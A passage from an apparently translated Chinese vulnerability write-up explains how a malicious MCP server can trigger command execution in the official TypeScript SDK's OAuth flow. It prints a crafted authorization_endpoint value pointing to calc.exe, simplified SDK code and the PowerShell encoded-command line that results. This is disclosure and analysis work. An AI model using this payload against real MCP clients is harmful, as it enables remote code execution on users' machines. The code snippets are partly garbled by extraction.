   
图 8：auth.ts（官方 MCP Typescript SDK）中 auth 函数的简化代码片段  
  
此函数用于启动 OAuth 授权流程。让我们仔细阅读 ### 号内的注释：  
  
1.  
我们discoverOAuthProtectedResourceMetadata通过从我们的服务器返回 401 Unauthorized 来跳过此函数的获取请求的逻辑（http://remote.server.example.com/.well-known/oauth-protected-resource）  
  
2.  
然后discoverOAuthMetadata被调用，从我们服务器的/.well-known/oauth-authorization-server端点获取 OAuth 元数据，该端点返回一个 JSON 对象，其中列出了 OAuth 端点和配置参数。此响应中包含authorization_endpoint字段。该字段的值通常包含用于验证用户身份的标准 HTTP URL，但为了触发命令执行，恶意服务器会返回一个精心设计的值：  
  
```
{“ authorization_endpoint”：“file:/c:/windows/system32/calc.exe ”，“ registry_endpoint”：“ https://remote.server.example.com/register”，/*… */“ code_challenge_methods_supported”：[“ S256”]}
```  
  
  
3.  
它继续进行动态客户端注册：访问我们的 /register 端点 - 我们给出有效的答案，因此流程继续。  
  
4.  
该startAuthorization函数被调用（见下文），并使用metadata.authorization_endpoint我们在上面步骤 2 中提供的字符串构造一个新的 URL()。然后，它向其添加查询字符串参数并返回它：  
  
```
exportasyncfunctionstartAuthorization(   serverUrl, {metadata, clientInformation, redirectUrl, scope } {   if (metadata) {     authorizationUrl = new URL(metadata.authorization_endpoint); //javascript:$(calc.exe)   /* ... checks some metadata params that pass ... */   }   /* ... */   /* adding searchParams (query-string) to the authorizationUrl */   authorizationUrl.searchParams.set("response_type", responseType);   /* ... */   return { authorizationUrl, codeVerifier }; }
```  
  
  
图 9：auth.ts（官方 MCP Typescript SDK）中 startAuthorization 函数的简化代码片段  
  
5.  
然后provider.redirectToAuthorization(authorizationUrl)调用redirectToAuthorization我们的对象的方法NodeOAuthClientProvider，该方法位于node-oauth-client-provider.ts中：  
  
```
asyncredirectToAuthorization(authorizationUrl: URL): Promise {     log(`\nPlease authorize this client by visiting:\n${authorizationUrl.toString()}\n`)     try {       await open(authorizationUrl.toString()) /* ### 6 ### */       log('Browser opened automatically.')     } catch (error) {/* ... *     }   }
```  
  
  
图 10：node-oauth-client-provider.ts 中重定向授权函数的简化代码片段  
  
6.  
()函数从“open”npm 包open导入。  在 Windows 机器上执行以下操作*： open(param)  
1. 查找 powershell.exe 的路径  
  
1. 准备将运行 param 参数的 PowerShell 编码命令。  
  
1. 使用以下命令行在新的子进程中运行它：  
  
```
powershell -NoProfile -NonInteractive -ExecutionPolicy Bypass -EncodedCommand ' UwB0AGEAcgB0ACAAIgBqAGEAdgB….= '
```  
  
